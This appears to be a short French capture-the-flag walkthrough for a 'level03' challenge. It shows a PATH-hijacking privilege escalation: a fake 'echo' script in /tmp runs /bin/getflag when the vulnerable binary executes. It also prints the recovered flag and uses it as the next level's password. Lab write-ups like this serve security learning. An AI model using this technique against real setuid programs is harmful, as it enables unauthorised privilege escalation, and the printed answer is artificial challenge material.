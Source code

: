 ## 1. Analyser le fichier binaire level03

    On trouve: /usr/bin/env echo Exploit me

## 2. Modifier la commande echo et le PATH

    echo '/bin/getflag' > /tmp/echo
    chmod +x /tmp/echo
    PATH=/tmp

Puis on execute ./level03

    Cela affiche: qi0maab88jeaj46qoumi7maus

## 3. Connexion

/bin/su level04

    Mot de passe : qi0maab88jeaj46qoumi7maus